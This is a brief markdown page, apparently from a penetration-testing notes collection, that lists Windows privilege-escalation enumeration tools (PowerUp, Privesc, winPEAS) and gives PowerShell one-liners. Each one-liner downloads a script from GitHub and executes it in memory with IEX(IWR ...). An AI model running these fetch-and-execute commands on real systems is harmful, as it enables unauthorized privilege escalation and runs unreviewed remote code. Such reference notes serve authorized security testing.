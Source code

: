 - **PowerUp:** https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc 
- **Privesc:** https://github.com/enjoiz/Privesc 
- **winPEAS:** https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).


```powershell
# PowerUp
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Privesc/PowerUp.ps1);Invoke-AllChecks

# Privesc
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/enjoiz/Privesc/refs/heads/master/privesc.ps1);Invoke-PrivEsc

# winPEAS
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/peass-ng/PEASS-ng/refs/heads/master/winPEAS/winPEASps1/winPEAS.ps1)
```